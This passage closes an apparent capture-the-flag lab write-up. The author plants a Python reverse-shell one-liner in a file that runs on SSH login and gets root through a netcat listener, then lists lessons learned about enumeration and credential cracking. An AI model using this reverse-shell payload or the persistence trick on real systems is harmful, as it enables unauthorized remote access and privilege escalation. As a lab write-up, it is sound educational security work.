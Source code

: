 This file appeared to be executed on SSH login, so I inserted a reverse shell payload into it.
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.9.3.207",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

On my attacker machine, I set up a listener:
```bash
nc -lvnp 1234
```

After SSHing in again, I received a reverse shell and gained root access.

![Pasted image 20240729173957](https://github.com/user-attachments/assets/5f9a8220-d86f-4fd0-ad52-646d1829768c)

I navigated to the `/root` directory and captured the flag.

![Pasted image 20240729174111](https://github.com/user-attachments/assets/1d39d451-bf62-422b-b23a-50fa4abb6330)

## Lessons Learned
- Enumeration is critical for identifying potential attack vectors.
- Leaked credentials and password cracking are effective methods for gaining initial access.
- Understanding the structure and function of various files and services can reveal ways to escalate privileges.
- Automated tools like Hydra and CrackStation significantly streamline the process of exploiting vulnerable services.

## Conclusion
This challenge was a comprehensive exercise in exploiting a series of vulnerabilities to gain root access. 
The process involved thorough enumeration, a bit of OSINT research,  credential discovery, and effective exploitation techniques. 
The experience highlighted the importance of diligent enumeration and the utility of various tools and methods in penetration testing.
